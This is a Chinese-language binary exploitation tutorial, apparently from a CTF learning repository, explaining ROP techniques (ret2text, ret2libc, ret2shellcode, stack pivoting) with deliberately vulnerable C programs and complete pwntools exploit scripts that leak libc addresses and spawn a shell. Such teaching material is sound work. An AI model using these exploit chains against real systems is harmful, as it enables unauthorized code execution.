


## 前言

前面我们已经了解了基本的ROP原理，这一章主要整合了常用的ROP技巧。（这里仅仅是记录了我所知的技巧，欢迎各位师傅补充）

## ret2xxx系列

学习ROP的过程中经常会看到如`ret2text`，`ret2libc`，`ret2syscall`等利用手法，`ret2`后面的内容便是ROP链中各种函数，gadget的来源。

**注意：这些并不是某个完整的利用方法，而是某个完整的利用方法的一部分**

### ret2text

`ret2text`就是利用下图中ELF部分中储存可执行代码的部分（即`.text`段），如前一章中的ROP的例子便是`ret2text`


### ret2libc

`ret2libc`则是用dynamic link libraries中的gadget（虽然这个利用方法叫做`ret2libc`，但是所有连接进来的动态链接库都可以作为gadget的来源）


`ret2libc`和`ret2text`类似，但是由于动态链接库的特性所致，在利用时多出了一步，便是泄漏动态链接库的基地址。关于泄漏基地址，这里就要引入两个关于链接库装载的表，`got`表和`plt`表。这里就不详细解释了，仅仅是简单的讲讲其基本的工作流程。

因为动态链接库的加载时的基地址是随机的，所以当程序调用动态链接库中的函数的时候，实际是转跳到预留在程序中的函数入口，即`plt`。而执行到`plt`中后，会先检查对应的函数是否已经加载，如果已经加载，则根据`got`表中记录的地址转跳实际的函数地址。否则先调用加载函数（加载后的函数的地址记录在`got`表中），再转跳到对应的函数。大致的流程图如下：


由此，我们可以知道加载之后的函数地址储存在`got`表中，那么我们就可以想办法将`got`表中的内容输出出来，然后减去偏移，从而实现泄漏动态链接库的基地址（这里计算基地址的原理是动态链接库的加载也是通过映射文件实现的，一个链接库映射到一段连续的内存空间）。拿到基地址之后我们就可以加上偏移获得所需函数或者gadget。

以下面这个程序为例，目标是获取shell

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

int main() {
    char str[0x20];
    puts("Hello, world!");

    read(0, str, 0x100);

    return 0;
}
```

可以得到如下脚本：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

但是通过调试会发现程序会在执行到下图这个阶段的时候无法正常执行。这个是因为`xmm0`等寄存器是128位的，当往内存里存取值的时候，指针需要对齐到`0x10`，而此时`rsp + 0x50`的末位为8，并没有对齐，最终导致程序异常。



解决方法也很简单，只需在payload中加一个`ret`即可（具体原理就留给大家自己思考了）。最终脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3
ret = 0x000000000040101A

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

下图就是栈帧的变化过程：


### ret2shellcode

如果程序的内存中有一段可写且可执行的内存的话（如没开NX保护时的栈，mmap申请出来的内存空间，mprotect修改权限后的内存等），可以通过提前向其中写入shellcode，然后再通过控制返回地址使程序执行shellcode。

ret2shellcode一般用于没开NX保护或需要实现的功能比较的复杂时使用（如反弹shell）。具体如何通过栈溢出控制程序流执行shellcode这里就不过多分析了，这里主要讲讲如何生成shellcode。以下面这个程序为例（目标是获取shell）：这个程序首先通过`mmap`申请了一块有执行权限的内存，起始地址为`0xdead0000`，然后通过`read`读入内容，同时后面还有一个栈溢出。

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>
#include <stdlib.h>

int main() {
    mmap(0xdead0000, 0x1000, 7, 0x21, -1, 0);

    char *p = (char *)0xdead0000;
    char str[0x20];

    read(0, p, 0x1000);

    read(0, str, 0x50);

    return 0;
}
```

对应的exp：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

p.send(asm(shellcraft.sh()).ljust(0x1000, b"\x00"))

payload = b"A" * 0x38
payload += p64(0xDEAD0000)
p.send(payload)

p.interactive()
```

上面这个exp中，`shellcraft.sh()`函数用于生成获取shell的shellcode的汇编指令，而`asm`函数用于将汇编指令转化为机器码。

### ret2syscall

咕咕咕

~~感觉用得不多，继续咕咕咕~~

## 栈迁移

栈迁移算是栈利用的核心和难点之一，个人认为学习栈迁移存在难度是主要因为栈寄存器的不断变换比较的难以理清楚思路。

### 原理

对于栈迁移，一般是利用于栈的溢出空间不够的情况，通常需要想办法在另一个区域构造好payload，如ROP链，然后将栈迁移过去执行ROP链。

那么要怎么进行栈迁移呢？我们先来回顾一下x86_64的函数调用流程。这里直接用栈溢出那一章的示例（从`call`开始）：

```asm
test:
    push    rbp
    mov     rbp, rsp
    sub     rsp, 16
    ...
    leave
    ret
main:
    ...
    call    test
    ...
```

这一段汇编对应的栈帧变化如下：


这里我们重点观察命令执行到`leave; ret`时的行为：

1. `RSP`移到`RBP`的位置（`mov rsp, rbp`）
2. `RBP`返回上一个栈帧的栈底（`pop rbp`）
3. `RIP`返回`call`指令之后继续执行（`pop rip`）

这里面前两个行为对应`leave`，最后一个行为对应`ret`，拆分后的动图如下（从`leave`开始）：

**修正：图中对`leave`拆解的部分的`pop rsp`应为`pop rbp`**）


由此我们可以得出，通过控制上一栈帧的栈底地址（即图中黄色的部分的值）就可以控制`RBP`，而控制了`RBP`就能通过再次执行`leave`控制`RSP`，完成`RSP`和`RBP`控制之后，栈迁移就完成了，对于ROP链控制了RSP就足够了。

还是这个例子，假设test中发生了溢出，刚好覆盖了上一栈帧的栈底地址和返回地址。


### 栈迁移入门

入门难度的栈迁移一般是能够直接往已知地址的内存空间提前写入payload，就比如下面的这个示例。

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

char buf[0x1000];

int main() {
    char str[0x20];
    puts("Read 1");

    read(0, buf, 0x1000);
    
    puts("Read 2");
    
    read(0, str, 0x30);

    return 0;
}
```

编译后的结果如下（可能会因为系统不同而有所不同）：


第一次读取是写入`0x00404060`处的内存。



而第二次是往`rbp-0x20`的位置写入`0x30`长度的字符串。

对于这个示例，对应的exp如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

context.log_level = "debug"
context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi   = 0x0000000000401223
leave_ret = 0x00000000004011b5
ret       = 0x000000000040101a

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = flat({
    0xE00:[
        p64(0xdeadbeef),        # padding
        p64(pop_rdi),
        p64(puts_got),
        p64(puts_plt),
        p64(main_addr)
    ]
})

p.sendafter(b"Read 1\n", payload)

payload = flat({
    0x20: [
        p64(0x404E60),
        p64(leave_ret),
    ]
})

p.sendafter(b"Read 2\n", payload)

puts_addr = u64(p.recv(6).ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

pop_rsi     = libc_base + 0x000000000002601f
pop_rdx_r12 = libc_base + 0x0000000000119431
binsh_addr  = libc_base + next(libc.search(b"/bin/sh"))
system_addr = libc_base + libc.sym["system"]

payload = flat({
    0x600: [
        p64(0xdeadbeef),        # padding
        p64(pop_rdi),
        p64(binsh_addr),
        p64(ret),
        p64(system_addr),
    ]
})

gdb.attach(p)
p.sendafter(b"Read 1\n", payload)

payload = flat({
    0x20: [
        p64(0x404660),
        p64(leave_ret),
    ]
})

p.sendafter(b"Read 2\n", payload)


p.interactive()
```

> [!TIP]
>
> 在栈迁移的环境下通过ROP调用`system`函数时，需要注意`system`函数需要大量的栈空间，栈顶（低地址）一侧需要**预留0x600字节以上**的栈空间。

对于这个exp，第一次栈迁移泄露libc基地址的栈帧的变化如下，第二次栈迁移调用`system`同理，这里不重复演示了（从第一次`call read`开始）：


### 栈迁移进阶

栈迁移在进一步就是只能往栈上写入payload，就比如下面的这个示例。

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

char buf[0x3000]; // 让.bss有足够的空间。

int main() {
    char str[0x1000];
    puts("Read 1");

    read(0, str, 0x1010);

    return 0;
}
```

编译后的结果如下：


这里只有一次往`rbp-0x1000`的位置写入0x1010长度的内容的机会。很显然，这里无法提供足够的空间构造ROP链，也没机会提前写入ROP链。

那么真的没办法了吗？

我们先来回想一下栈迁移的流程，通过函数结尾`leave`控制`RBP`寄存器，然后通过再次`leave`控制`RSP`寄存器。同时我们再看上面的汇编中的`read`：


很显然，这里`read`指向缓冲区的指针是使用`RBP`计算得出的。所以控制了`RBP`之后就可以实现任意地址写了，通过任意地址写写入ROP链之后，就可以再次通过栈迁移实现执行ROP链。

对应的exp如下（只到泄露libc，getshell原理一样）：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

context.log_level = "debug"
context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi   = 0x0000000000401203
leave_ret = 0x0000000000401199
ret       = 0x000000000040101a

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

read_addr = 0x00401176

payload = flat({
    0x1000: [
        p64(0x00405500),
        p64(read_addr)
    ]
})

p.sendafter(b"Read 1\n", payload)

payload = flat({
    0x00: [
        p64(0xdeadbeef),
        p64(pop_rdi),
        p64(puts_got),
        p64(puts_plt),
    ],
    0x1000: [
        p64(0x00404500),
        p64(leave_ret),
    ]
})

p.send(payload)

puts_addr = u64(p.recv(6).ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

p.interactive()
```

对于栈帧的变化如下：


### 堆与栈迁移

用`setcontext`开头的一个一段gadget可以控制大部分寄存器，其中就包括`RSP`寄存器。

具体用法：

咕咕咕
